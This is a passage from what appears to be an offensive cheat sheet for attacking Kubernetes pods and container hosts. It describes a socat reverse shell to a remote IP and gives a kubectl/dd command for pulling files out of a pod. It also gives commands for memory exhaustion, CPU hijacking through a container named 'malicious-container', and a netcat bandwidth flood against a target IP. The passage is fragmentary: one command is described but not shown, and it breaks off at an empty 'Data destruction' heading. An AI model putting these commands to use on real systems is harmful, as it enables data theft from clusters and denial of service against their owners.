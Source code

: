 This command sets up a reverse shell to collect data from a pod. It uses `kubectl` to execute a command inside a specific pod (`<POD_NAME>`) and container (`<CONTAINER_NAME>`). It leverages `socat` to listen on a local port (`<LOCAL_PORT>`) and forward incoming traffic to a remote IP (`<REMOTE_IP>`) and port (`<REMOTE_PORT>`). This allows you to establish a connection and collect data from the pod.


3. Using `kubectl` and `dd`:

```
kubectl exec <POD_NAME> -c <CONTAINER_NAME> -- dd if=<SOURCE_FILE> bs=1M | base64
```


This command uses `kubectl` to execute a command inside a specific pod (`<POD_NAME>`) and container (`<CONTAINER_NAME>`). It employs `dd` to read a specified source file (`<SOURCE_FILE>`) and output its contents. By using the appropriate block size (`bs`), you can adjust the amount of data collected. The output is piped to `base64` for encoding and subsequent analysis.



### Resource hijacking


1. Resource Exhaustion Attack:

```
sudo apt-get install -y stress-ng && stress-ng --vm 1 --vm-bytes 1G --verify -t 5m
```


This command installs the stress-ng tool and uses it to simulate a resource exhaustion attack by creating a virtual memory load of 1GB, causing the system to consume excessive memory resources for 5 minutes.


2. CPU Resource Hijacking with Docker Container:

```
docker run -d --name malicious-container -c 512 busybox sh -c 'while true; do :; done'
```


This command creates a Docker container named "malicious-container" with a CPU limit of 512 units and an infinite loop process. The container continuously consumes CPU resources, potentially affecting the performance of other processes on the host system.


3. Bandwidth Resource Hijacking with Netcat:

```
nc -lvp 4444 >/dev/null & while true; do cat /dev/urandom | nc <target IP> 4444; done
```


This one-liner command sets up a listening Netcat server on port 4444 and redirects incoming data to /dev/null. Simultaneously, it continuously sends random data from /dev/urandom to a specified target IP address, potentially saturating the network bandwidth.


### Data destruction

